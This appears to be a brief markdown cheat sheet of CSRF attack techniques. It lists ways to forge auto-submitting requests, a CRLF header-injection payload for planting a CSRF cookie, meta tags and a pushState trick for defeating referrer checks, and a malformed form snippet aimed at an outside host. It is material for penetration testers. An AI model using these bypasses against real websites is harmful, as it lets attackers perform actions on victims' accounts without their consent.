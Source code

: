 # CSRF Attacks

###### CSRF : Cross-Site Request Forgery 

#### contents :
- Create fake form auto submit request when page opened
- Exfiltrate csrf token using airbitary requests


##### techniques :
- edit request method [POST,GET]
- manipulate parameters : [empty value, no parameter]
- find what the CSRF token is tied to :
	- possible any random generated CSRF by server can be used
	-  duplicated in cookie and header `%0d%0aSet-Cookie:%20csrf=` | [CRLF]
- bypass [referrer header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer) if tampered request is rejected : 
	-   `<meta name="referrer" content="no-referrer">`
	-   `<meta name="referrer" content="never">`
- bypass [referrer header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer) validation:
-  `history.pushState("", "", "/?vulnerable-site.com")`
	- don't forget to add `Referrer-Policy: unsafe-url` to your attacking website headers 
- Using only the static parts of the token
```html
<form action="http://shahmeeramir.com/acquire_token.php"></textarea>
```

